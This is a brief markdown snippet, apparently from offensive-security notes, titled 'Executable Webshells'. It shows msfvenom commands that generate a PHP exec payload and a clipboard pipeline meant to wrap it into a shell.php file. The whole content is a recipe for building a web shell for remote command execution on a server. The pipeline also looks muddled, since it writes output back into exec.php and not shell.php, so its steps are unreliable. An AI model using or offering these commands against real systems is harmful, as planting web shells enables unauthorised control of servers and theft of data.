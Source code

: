 # Executable Webshells

## 01 - PHP

```
$ msfvenom -p php/exec cmd="<commands>" -f raw -o exec.php

$ xclip -selection clipboard exec.php && echo '<?php ' | tr -d '\n'> shell.php && xclip -selection clipboard -o >> exec.php
```